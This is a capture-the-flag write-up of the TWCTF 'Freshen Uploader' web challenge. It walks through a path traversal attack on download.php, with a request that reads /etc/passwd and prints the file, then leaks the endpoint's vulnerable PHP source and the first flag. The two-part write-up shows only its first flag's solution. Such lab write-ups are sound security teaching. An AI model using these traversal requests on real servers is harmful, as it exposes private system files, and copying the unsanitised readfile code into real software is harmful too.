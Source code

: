 # Freshen Uploader

## Problem

In this year, we stopped using Windows so you can't use DOS tricks!

http://fup.chal.ctf.westerns.tokyo/

Flag 1: TWCTF{then_can_y0u_read_file_list?}

Flag 2: TWCTF{php_is_very_secure}


## Flag 1

If you go to the webpage for the challenge you will have a list of files that you can download. 

If you view source you can see that the browser is making a GET request to:
http://fup.chal.ctf.westerns.tokyo/download.php?f= then the name of the file.

The first thing I tried was local file inclusion because you are giving the name of the file you want to download in the GET request. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../../../../../../etc/passwd

Works!!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
unscd:x:112:116::/var/lib/unscd:/bin/false
twctf:x:1000:1000:Ubuntu:/home/twctf:/bin/bash
zabbix:x:113:117::/nonexistent:/bin/false
```

After that I had to think what is a file that I know is on the system and can help get the flag, download.php is on the system because they call it. 

http://fup.chal.ctf.westerns.tokyo/download.php?f=download.php

It download a file that was empty, so that didn't work so I figured it was looking for download.php in the wrong directory 

http://fup.chal.ctf.westerns.tokyo/download.php?f=../download.php

Worked!!

```
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```



